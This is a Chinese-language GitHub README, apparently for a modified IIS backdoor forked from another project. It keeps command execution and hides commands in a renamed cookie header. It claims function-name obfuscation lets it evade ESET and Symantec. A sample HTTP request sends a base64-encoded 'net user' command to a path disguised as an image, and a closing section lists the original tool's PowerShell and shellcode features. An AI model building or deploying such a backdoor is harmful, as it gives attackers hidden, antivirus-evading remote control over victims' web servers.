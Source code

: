 参考WBGlIl大佬项目，删除powershell和shellcode功能，只保留cmd功能

Cookie: cmd= 改成 Cookie: set-cookie=，对函数名进行混淆

目前已绕过 eset 和 symantec 

```
GET /aspnet_client/system_web/iisstart.png HTTP/2
Host: 192.168.42.128
Cookie: set-cookie=bmV0IHVzZXI=
```
![飞书20230223-115221](https://user-images.githubusercontent.com/72059221/220817771-b66c981d-df1e-46ff-8a02-ec4a62f023c5.jpg)

![飞书20230223-115225](https://user-images.githubusercontent.com/72059221/220817780-05b90dbb-fb4c-435f-92ea-a4fa5560cd82.jpg)

---分割线---

原项目地址：https://github.com/WBGlIl/IIS_backdoor。

主要是实现了3个功能执行cmd命令，C#调用powershell，执行shellcode

其实文件上传也写了就是IIS_backdoor_shell项目没有添加对应的选项

因为Cookie大小限制是4096所以不能传输很大的文件，你也可以自行修改项目不使用Cookie传输数据

其实还有很多可以改进的地方不过我懒的写了暂时就这样吧

代码写的比较渣大佬误喷
